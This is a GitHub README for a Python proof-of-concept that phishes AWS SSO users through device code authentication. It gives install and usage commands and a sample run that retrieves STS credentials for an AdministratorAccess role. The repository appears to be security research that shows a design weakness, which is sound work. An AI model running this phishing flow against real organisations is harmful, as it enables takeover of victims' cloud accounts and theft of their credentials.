

# AWS SSO Device code authentication

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it displays the list of AWS accounts and roles they have access to, and retrieves STS credentials inside them. It is a powerful phishing vector to which any identity provider implementing 'device code' authentication is vulnerable to by design (including AWS SSO but also Azure AD, etc.).



Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose - but it provides an interactive PoC to try it, and doesn't mess with your current AWS CLI configuration! :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```